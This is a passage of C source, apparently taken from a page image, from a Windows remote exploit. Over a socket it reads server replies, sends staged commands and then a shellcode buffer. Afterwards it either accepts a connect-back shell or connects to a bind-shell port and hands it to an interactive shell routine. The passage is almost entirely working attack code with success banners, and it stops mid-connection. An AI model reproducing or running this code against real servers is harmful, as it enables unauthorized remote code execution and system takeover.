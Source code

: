             for(i=0;i<sizeof(szSend)/sizeof(szSend[0]);i++)
            {
                memset(szRecvBuff, 0, sizeof(szRecvBuff));
                iErr = recv(s, szRecvBuff, sizeof(szRecvBuff), 0);
                if(iErr == SOCKET_ERROR)
                {
                    printf("[-] Recv buffer error:%d.\n", WSAGetLastError());
                    __leave;
                }
                printf("[+] Recv: %s", szRecvBuff);

                if(szRecvBuff[0] == '5')
                {
                    printf("[-] Server return a error Message.\r\n");
                    __leave;
                }

                iErr = send(s, szSend[i], strlen(szSend[i]),0);
                if(iErr == SOCKET_ERROR)
                {
                    printf("[-] Send buffer error:%d.\n", WSAGetLastError());
                    __leave;
                }

                if(i==sizeof(szSend)/sizeof(szSend[0])-1)
                    printf("[+] Send shellcode %d bytes.\n", iErr);
                else
                    printf("[+] Send: %s", szSend[i]);
            }

            printf("[+] If you don't have a shell it didn't work.\n");

            if(bCb)
            {
                if(bLocal)
                {
                    printf("[+] Wait for shell...\n");

                    len = sizeof(client);
                    s3 = accept(s2, (struct sockaddr*)&client, &len);
                    if(s3 != INVALID_SOCKET)
                    {
        printf("[+] Exploit success! Good luck! :)\n");
        printf("[+] ===--===--===--===--===--===--===--===--===--===--===--===--===--===\n");
                        shell(s3);
                    }
                }
            }
            else
            {
                printf("[+] Connect to shell...\n");

                Sleep(1000);
                s2 = socket(AF_INET,SOCK_STREAM,IPPROTO_TCP);
                server.sin_family = AF_INET;
                server.sin_port = htons(shport);
                server.sin_addr.s_addr=inet_addr(ip);
